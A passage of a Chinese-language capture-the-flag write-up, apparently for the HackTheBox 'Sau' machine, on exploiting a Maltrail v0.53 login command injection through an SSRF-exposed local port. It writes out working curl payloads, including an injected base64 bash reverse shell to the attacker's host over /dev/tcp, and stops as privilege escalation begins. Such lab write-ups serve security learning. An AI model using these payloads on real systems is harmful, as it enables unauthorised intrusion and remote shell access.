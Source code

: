 ### 本地8338端口 - PoC (Maltrail命令注入)

谷歌“Maltrail v0.53 exploit”，发现[PoC文章](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)。很清晰，即登陆界面的username参数有命令注入漏洞。  
PoC：
> curl 'http://hostname:8338/login' \  
>  --data 'username=;\`id > /tmp/bbq\`'

原来最开始nmap扫描结果里被filtered的8338就是这个Maltrail啊。都联系起来了！

那么测试一下8338这个命令注入。  
首先继续利用之前那个PoC，将basket的forward_url设置更改为 `http://127.0.0.1:8338/login`，让本地8338服务的目标URL暴露。  
既然是命令注入的话，先试试能否执行curl连到我的kali吧：

- 在kali用python简单开个http服务：`python -m http.server 80`
- 然后向basket发送payload：``curl -XPOST http://10.10.11.224:55555/poc11 --data 'username=;`curl 10.xx.xx.xx:80`'``  

python的http服务成功收到响应。  

那么再想想如何利用这个命令注入——既然能反连回来，那当然得弄个反弹shell看看。  
开启监听，不过试了好几条插入反弹shell的命令都无法执行成功，想着可能是特殊字符的问题，于是尝试传递base64再解码执行的方式。  
执行下面payload，成功get shell。其中 `<rshell-base64>` 的部分为 `/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1` 的base64编码。

- payload：``curl -XPOST http://10.10.11.224:55555/poc11 --data 'username=;`echo "<rshell-base64>" |base64 -d |bash`'``  


## flag: user

进来的shell是puma用户权限，看一眼home目录只有puma，所以这就是有 user flag 的用户。

```bash
puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$ ls /home
ls /home
puma
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
6a04……97b7
```


## Privilege Escalation

### 探索

基础探索一把梭：

- 用户家目录的隐藏文件：无
- SUID：无特别发现
- 无当前用户的凭据，不过姑且看了眼 `sudo -l`：竟然不需要输入密码？
